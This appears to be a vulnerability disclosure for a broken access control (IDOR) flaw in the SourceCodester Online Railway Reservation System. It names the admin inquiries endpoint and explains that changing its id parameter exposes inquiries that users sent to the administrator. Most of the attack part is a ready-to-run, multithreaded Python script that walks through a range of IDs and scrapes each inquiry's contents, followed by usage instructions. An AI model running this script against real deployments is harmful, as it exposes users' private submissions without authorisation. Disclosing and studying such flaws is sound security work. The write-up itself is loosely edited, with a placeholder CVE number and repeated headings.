 # Broken Access Control (Improper Access Control) vulnerability was discovered in SourceCoderster Online Railway Reservation System 
---
## CVE-2024-XXXX

Vulnerability Analysis:
---

Affected product: [Railway Reservation System](https://www.sourcecodester.com/php/15121/online-railway-reservation-system-phpoop-project-free-source-code.html)

Affected Endpoint: `orrs/admin/inquiries/view_details.php?id=*`

Vulnerability Analysis:
---

A Broken Access Control (Improper Access Control) vulnerability was discovered in SourceCoderster Online Railway Reservation System  where a unauthorized user and directly access inquiries submitted by users to Administrator This can be Demonstrated with this steps:

Affected Product: [Online Railway Reservation System](https://www.sourcecodester.com/php/15121/online-railway-reservation-system-phpoop-project-free-source-code.html)
 

Exploitation:

[
![image](https://github.com/gurudattch/CVEs/blob/main/assets/34.png)
---

1. Directly Pointing to the http://your_host/orrs/admin/inquiries/view_details.php?id=*  
2. By Changing the Id  parameter value a Unauthorized User can directly Access The Inquiry


OR USE this Python Script:

Python

```
import requests
import threading
from bs4 import BeautifulSoup

def send_request_and_extract_data(id):
    url = f"http://localhost/orrs/admin/inquiries/view_details.php?id={id}"
    response = requests.get(url)
    soup = BeautifulSoup(response.text, 'html.parser')

    data = []
    for dl in soup.find_all('dl'):
        for dt, dd in zip(dl.find_all('dt', class_='text-primary'), dl.find_all('dd', class_='pl-4')):
            data.append((dt.text, dd.text))

    print(f"ID: {id}")
    for item in data:
        print(f"{item[0]}: {item[1]}")
    print()

def main():
    from_id = int(input("Enter the starting ID: "))
    to_id = int(input("Enter the ending ID: "))

    threads = []
    for id in range(from_id, to_id + 1):
        t = threading.Thread(target=send_request_and_extract_data, args=(id,))
        threads.append(t)
        t.start()

    for t in threads:
        t.join()

if __name__ == "__main__":
    main()


```
Usage

```
python3 exp.py

```
